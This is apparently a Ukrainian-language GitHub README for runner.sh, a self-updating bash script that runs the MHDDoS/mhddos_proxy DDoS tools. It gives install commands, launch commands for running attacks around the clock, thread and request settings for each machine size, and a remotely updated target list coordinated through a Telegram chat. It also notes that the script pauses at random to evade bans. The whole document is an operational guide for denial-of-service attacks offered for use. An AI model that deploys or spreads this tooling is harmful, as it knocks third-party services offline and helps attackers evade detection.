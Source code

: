 # Опис
  
runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Linux-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише свій скрипт та цілі, а й скрипти з mhddos_proxy та MHDDoS: https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/0566b426a4960b283024a37b6995c5b8260d2795/runner.sh#L46
Також мій скрипт імітує роботу людини (вимикає увесь ДДоС на 1-10 (рандомно) хвилин, тобто вашу машину 95% не забанять, якщо правильно підібрати кількість потоків: https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/0566b426a4960b283024a37b6995c5b8260d2795/runner.sh#L132
Скрипт розподіляє список машин по різним цілям  
  
чат де координуються цілі, та ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Linux-машину:  
```shell
cd ~  
sudo rm -r auto_mhddos_alexnest
sudo apt install git -y  
git clone https://github.com/alexnest-ua/auto_mhddos_alexnest
```
  
**ОБОВ'ЯЗКОВО** - запуск файлу, який встановить скрипти MHDDoS та усі залежності (один раз на новій машині):
```shell
cd ~/auto_mhddos_alexnest
bash setup.sh
```
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері) - можна закривати термінал
Запуск автоматичного ДДоСу:  
```shell 
cd ~/auto_mhddos_alexnest
screen -S "runner" bash runner.sh  
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
runner.sh [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків на кожне ядро процесора
- rpc - кількість запитів на проксі перед відправкою на ціль
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами:
перед уведенням команд обов'язково зробити ось це:
```shell
cd ~/auto_mhddos_alexnest
```
1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=500 rpc=100 debug="" (1 ціль, 500 потоків, 100 запитів на проксі, без дебагу)
```shell
screen -S "runner" bash runner.sh 
```
2. Слаба машина(1 CPU + 1-2 GB RAM):
```shell
screen -S "runner" bash runner.sh 1 300 100 
```
3. Середня машина(2 CPUs + 2-4 GB RAM), саме ці параметри за замовчуванням:
```shell
screen -S "runner" bash runner.sh 1 500 100
```
4. Середня+ машина(2-4 CPUs + 4-8 GB RAM):
```shell
screen -S "runner" bash runner.sh 2 2000 200
```
5. Нормальна машина(4 CPUs + 8 GB RAM):
```shell
screen -S "runner" bash runner.sh 4 2000 300
```
6. Потужна машина(4+ CPUs + 8+ CB RAM):
```shell
screen -S "runner" bash runner.sh all 3000 500
```
  
*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```shell
screen -S "runner" bash runner.sh 1 500 100 --debug
```

* Приклад БЕЗ параметру --debug:
![image](https://user-images.githubusercontent.com/74729549/160018092-45e2e40d-f70c-4f6b-af14-6d0066dee1c7.png)
* Приклад З параметром --debug:
![image](https://user-images.githubusercontent.com/74729549/160018182-991ee42a-1ff0-434c-86fc-453b7909e96d.png)


* щоб подивитися що там працює у фоні:  
```shell 
screen -ls  
```
* щоб перейти до процесу та дізнатися як у нього справи (що він виводить), пишіть:  
```shell 
screen -r runner  
```
Після цього, якщо хочете вбити процес - натискайте Ctrl+C  
щоб вбити усі підпроцеси прописуєте (У ІНШОМУ ВІКНІ ТЕРМІНАЛУ):  
```shell
sudo pkill -f runner.sh
sudo pkill -f runner.py
sudo pkill -f ./start.py
```

* щоб знову від'єднатися, та залишити його працювати:  
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
  
Якщо немає Docker на машині(ВСТАНОВІТЬ НА МАЙБУТНЄ, бо можуть бути проблеми з python-скриптом, у зв'язку з кривими правками від розробників(якщо таке буде я автоматично переведу скрипт на docker)):  
```shell
cd auto_mhddos_test
bash install_docker.sh
```    
* якщо цікаво, чи запустилася docker-команда пропишіть це(ЗАРАЗ НЕ АКТУАЛЬНО):
```shell 
sudo docker ps -af ancestor=ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  
```
Вам видасть список запущенних контейнерів

УВАГА!!! Скрипт при рестарті (кожні 10-20 хвилин) вбиває старі запущені скрипти саме з MHDDoSом, тому якщо запускаєте цей скрипт на машині-Linux, то інший MHDDoS запускайте лише через docker, або на іншій машині-Linux
  
## Список цілей  

  
runner.sh підтримує единий [список цілей](https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_alexnest/main/runner_targets_new), який можна тримати на github і постійно оновлювати.  
  
  
  
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються на 'runner.py'.  
